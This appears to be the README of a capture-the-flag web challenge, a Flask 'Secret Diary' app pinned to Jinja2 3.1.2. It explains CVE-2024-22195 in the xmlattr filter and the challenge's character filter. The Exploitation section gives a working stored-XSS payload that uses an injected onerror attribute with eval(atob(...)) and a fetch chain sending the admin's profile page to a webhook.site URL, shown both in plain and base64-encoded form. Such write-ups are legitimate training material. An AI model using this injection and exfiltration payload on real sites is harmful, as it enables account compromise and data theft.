

# Secret Diary

Tell me your secrets and I will keep them safe.

## Vulnerability
Flask app uses a vulnerable Jinja2 version (CVE-2024-22195):

https://github.com/pallets/jinja/security/advisories/GHSA-h5c8-rqwp-cp95

```text
xmlattr filter in affected versions of Jinja accepts keys containing spaces.
XML/HTML attributes cannot contain spaces, as each would then be interpreted 
as a separate attribute. If an application accepts keys (as opposed to only
values) as user input, and renders these in pages that other users see as well,
an attacker could use this to inject other attributes and perform XSS. 
Note that accepting keys as user input is not common or a particularly 
intended use case of the xmlattr filter, and an application doing so should 
already be verifying what keys are provided regardless of this fix.
```
## Detection

The vulnerability can be found either by reviewing the dependencies inside the requirements.txt file, or just by testing the app form fields, as it is easy to trigger. Inside the requirements.txt file, all dependency versions are specified using the >= operator (minimum version allowed), while the Jinja2 package forces a specific vulnerable version (3.1.2)

## Vulnerability details
Vuln was fixed in commit https://github.com/pallets/jinja/commit/7dd3680e6eea0d77fde024763657aa4d884ddb23

Specifically, a new regular expression checks if the attribute name contains spaces, and if so, it raises an exception.

However, even before the patch, some characters are still escaped, using `from markupsafe import escape`.
To simplify the challenge, the checks performed in the `markupsafe` library are replicated inside the function `contains_illegal_char`, so it is not necessary to analyze the source code of the dependencies.

Source: https://github.com/pallets/markupsafe/blob/main/src/markupsafe/_native.py#L8 

The following chars are replaced with the HTML-safe equivalent values. In our function, 
user is redirected to the tryharder.html page instead, so they immediately know that their payload is not valid.
```python
str(value)
.replace("&", "\&amp;")
.replace(">", "\&gt;")
.replace("<", "\&lt;")
.replace("'", "\&#39;")
.replace('"', "\&#34;")
```
## Exploitation

The web has an option to mark an image as "sensitive". If the image is marked as sensitive, 
the server will return the image `sensitive` attribute set in the HTML output, which blurs the image when rendering in the browser.
The original image is still displayed by hovering.

The implementation is interesting because instead of submitting a boolean attribute with this property, 
it passes a parameter called `img_type` with the value `sensitive` if the image should be blurred, or `not-sensitive` otherwise.
This parameter is then used along others to build the img tag in the HTML output, using the `xmlattr` filter available in Jinja2.


### Vulnerable code
Inside profile.html template:
```html
<div class="card-image-container">
    
</div>
```

### Exploitation Idea
We can control one attribute name inside the `` tag, and as long as it does not contain quotes or '<', '>' and '&' it should be allowed. 
A critical thing that Jinja2 overlooked was spaces. By using spaces in the attribute name, the browser will actually parse them as multiple attributes.

To bypass the forbidden characters, we can use an event such as `onerror` with the following payload that allows us to evaluate arbitrary code:
```javascript
eval(atob(this.id))
```
And write our payload base64 encoded inside the id attribute or any other.

Example payload to retrieve the admin page and exfiltrate the content to an arbitrary webhook:
```javascript
fetch('/profile/').then(r => r.text()).then(t => fetch('https://webhook.site/bcd8c6ea-46a1-4c03-8dd9-9a6b57361eef', {method: 'POST', body: t}))
```
as post request, using base64 encoded 
```
ZmV0Y2goJy9wcm9maWxlLycpLnRoZW4ociA9PiByLnRleHQoKSkudGhlbih0ID0+IGZldGNoKCdodHRwczovL3dlYmhvb2suc2l0ZS9iY2Q4YzZlYS00NmExLTRjMDMtOGRkOS05YTZiNTczNjFlZWYnLCB7bWV0aG9kOiAnUE9TVCcsIGJvZHk6IHR9KS
```

```
img_src=x&text=hisanta&csrf_token={CSRF_TOKEN}&img_type=id%3D{PAYLOAD}%20onerror%3Deval%28atob%28this%2Eid%29%29
```

Or editing manually the img_type parameter in the hidden field in the profile page:
```
id=ZmV0Y2goJy9wcm9maWxlLycpLnRoZW4ociA9PiByLnRleHQoKSkudGhlbih0ID0+IGZldGNoKCdodHRwczovL3dlYmhvb2suc2l0ZS9iY2Q4YzZlYS00NmExLTRjMDMtOGRkOS05YTZiNTczNjFlZWYnLCB7bWV0aG9kOiAnUE9TVCcsIGJvZHk6IHR9KSk onerror=eval(atob(this.id)) a=
```


